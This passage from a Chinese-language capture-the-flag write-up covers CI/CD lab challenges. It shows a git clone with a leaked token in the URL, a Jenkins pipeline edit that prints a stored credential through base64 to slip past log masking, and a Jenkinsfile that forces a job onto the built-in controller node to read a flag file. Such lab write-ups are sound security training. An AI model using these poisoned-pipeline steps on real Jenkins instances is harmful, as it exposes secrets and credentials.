该令牌具有存储库的可写权限，使用此令牌 clone 存储库：

```plain
git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@127.0.0.1:3000/Wonderland/caterpillar.git
```

然后就是修改成读取 flag 的 pipeline：

```plain
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

然后 push 过去就可以执行。

## Cheshire Cat

题目中说 All jobs in your victim’s Jenkins instance run on dedicated nodes, but that’s not good enough for you.因此暗示了可能要指定 node 来执行。考虑到一般执行是在 agent1，因此应该制定在 built-in node 上执行。在网上查一下就知道默认的 built-in node 的 label 是`built-in`。

git clone 下来之后修改`Jenkinsfile`：

```plain
pipeline {
    agent {label 'built-in'}
    environment {
        PROJECT = "sanic"
    }

    stages {

        stage ('Unit Tests') {
            steps {
                sh "cat ~/flag5.txt|base64"
            }
        }
    }

    post {
        always {
            cleanWs()
        }
    }
}
```

指定 agent 是`built-in`且从文件系统中读取 flag。

然后同样的流程直到 pull request，获得 flag：
